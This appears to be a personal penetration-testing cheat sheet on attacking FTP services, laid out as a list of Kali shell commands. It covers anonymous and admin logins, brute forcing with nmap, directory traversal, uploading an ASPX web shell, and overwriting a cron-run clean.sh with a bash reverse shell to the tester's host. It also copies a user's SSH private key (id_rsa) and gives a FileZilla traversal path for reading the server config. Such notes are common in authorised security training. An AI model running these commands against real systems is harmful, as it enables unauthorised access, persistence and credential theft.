 ```yaml
---
category: Uncategorized
  - pentest
  - enumeration
  - ftp
tags: [pentest]
created: 2024-12-21

---
```

#### FTP Enumeration
==CHECK TO SEE IF YOU CAN UPLOAD FILES!==

```bash - kali
ftp $TARGET 21
```

Admin login
```bash - kali
admin
```

Anonymous login
```bash - kali
anonymous
```

```bash - kali
nmap --script ftp-brute -p 21 $TARGET
```

Check for directory traversal:
```bash - kali
ls ../
```

#### Exit Extended Passive Mode
![[Pasted image 20220401094126.png]]

```bash - kali
pass
```

```bash - kali
ls
```

Then switch to binary mode to upload files:
```bash - kali
bin
```

#### Downloading recursively 
```bash - kali
wget --mirror 'ftp://anonymous:anonymous@$TARGET'
```

```bash - kali
wget -r ftp://anonymous@$TARGET:21
```

```bash - kali
wget -m ftp://anonymous:anonymous@$TARGET
```

```bash - kali
wget -m --no-passive ftp://anonymous:anonymous@$TARGET
```

#### Upload reverse shell
```bash - kali
binary
```

```bash - kali
put cmdasp.aspx
```

Then visit webshell in web browser:
```bash - kali
firefox http://$TARGET/cmdasp.aspx
```

#### Display file without downloading
```bash - kali
get <FILENAME> -
```

#### Existing scripts
`scripts` folder found on FTP, file called `clean.sh` that is part of cron job.  Made a reverse shell with same name, uploaded and overwrote.

clean.sh
```bash - kali
echo '#!/bin/bash \nbash -i >& /dev/tcp/$KALI/443 0>&1' > clean.sh
```

```bash - kali
ftp $TARGET
```

```bash - kali
cd scripts
```

```bash - kali
put clean.sh
```

Set up listener and wait.

[[rlwrap]]

#### Nmap vsftpd script

```bash - kali
nmap --script ftp-vsftpd-backdoor -p 21 $TARGET
```

#### copy id_rsa

```bash - kali
nc $TARGET 21
```

```bash - kali
cpfr /home/user/.ssh/id_rsa
```

```bash - kali
cpto /home/kali/id_rsa
```

[[Port 22 - SSH  ~#id_rsa]]

#### Home FTP Server
https://www.exploit-db.com/exploits/34050

#### FileZilla Directory Transversal
```
.....=C:/Program+Files/FileZilla+Server/FileZilla+Server.xml
```

To crack passwords, try:
[[TechLexicon/Penetration Testing/Reference/7._Tools/Hashcat#FileZilla 0 9 55]]

#### vsftpd
Config file is most likely located at `/etc/vsftpd.conf`. If you can read this file, look for `anon_root=/srv` entry to find root directory of FTP.  `/srv` in this example.


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`

